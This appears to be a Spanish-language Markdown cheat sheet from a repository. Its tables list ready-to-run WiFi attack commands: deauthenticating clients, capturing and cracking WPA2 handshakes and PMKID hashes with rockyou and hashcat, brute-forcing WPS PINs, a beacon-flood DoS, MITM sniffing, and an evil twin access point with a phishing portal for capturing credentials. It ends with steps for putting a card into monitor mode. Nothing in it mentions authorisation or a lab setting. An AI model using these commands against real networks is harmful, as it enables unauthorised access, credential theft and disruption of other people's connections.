

## 🧨 Tabla de Comandos para Ataques WiFi

| Tipo de Ataque         | Herramienta      | Comando                                                                                  | Objetivo                                      |
|------------------------|------------------|------------------------------------------------------------------------------------------|-----------------------------------------------|
| 🔍 Reconocimiento       | `airodump-ng`     | `sudo airodump-ng wlan0`                                                                 | Escaneo pasivo de redes y clientes            |
|                        |                  | `sudo airodump-ng -c <CANAL> --bssid <BSSID> -w captura wlan0`                          | Captura dirigida a una red específica         |
| 💥 Deautenticación      | `aireplay-ng`     | `sudo aireplay-ng --deauth 10 -a <BSSID> wlan0`                                          | Expulsar a todos los clientes del AP          |
|                        |                  | `sudo aireplay-ng --deauth 10 -a <BSSID> -c <MAC_CLIENTE> wlan0`                         | Expulsar a un cliente específico              |
| 🎣 Captura de Handshake | `airodump-ng`     | *(igual que captura dirigida arriba)*                                                   | Recolectar handshake WPA2-PSK                 |
|                        | `aircrack-ng`     | `aircrack-ng -w rockyou.txt captura.cap`                                                 | Romper WPA2 con diccionario                   |
| 👻 Evil Twin (AP falsa) | `airbase-ng`      | `sudo airbase-ng -e "WiFiGratis" -c 6 wlan0`                                             | Crear punto de acceso falso                   |
|                        | `hostapd + dnsmasq`| *Configuración avanzada para portal cautivo (phishing)*                                  | Capturar credenciales                         |
| 🐍 MITM / Sniffing      | `bettercap`       | `sudo bettercap -iface wlan0mon` `net.probe on` `wifi.recon on` `wifi.assoc <BSSID>` | Interceptar tráfico, escanear y asociarse     |
| 🔓 Ataque WPS          | `reaver`          | `sudo reaver -i wlan0mon -b <BSSID> -vv`                                                 | Fuerza bruta al PIN WPS                       |
| 🔓 Ataque PMKID        | `hcxdumptool`     | `sudo hcxdumptool -i wlan0 --enable_status=15 -o pmkid.pcapng`                           | Captura de hash PMKID WPA2                    |
|                        | `hcxpcapngtool`   | `hcxpcapngtool -o hash.22000 pmkid.pcapng`                                               | Convertir a formato Hashcat                   |
|                        | `hashcat`         | `hashcat -m 22000 hash.22000 rockyou.txt`                                                | Ataque por diccionario con GPU                |
| 💣 Beacon Flood / DoS  | `mdk4`            | `sudo mdk4 wlan0mon b -n "RedFalsa" -f`                                                  | Inundar con falsas redes SSID                 |
| 🪛 Inyección de paquetes| `aireplay-ng`     | `sudo aireplay-ng -9 wlan0mon`                                                           | Verificar si la tarjeta soporta inyección     |

---

## ⚙️ Extras de Configuración

Usa el script section3_activate_wifi.sh o haz los siguientes pasos

| Paso                    | Comando                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| Activar modo monitor    | `sudo ip link set wlan0 down && sudo iw wlan0 set monitor control && sudo ip link set wlan0 up` |
| O usar                  | `sudo airmon-ng start wlan0`                                            |
| Ver interfaces          | `iwconfig`                                                              |
| Desactivar modo monitor | `sudo airmon-ng stop wlan0mon`                                          |
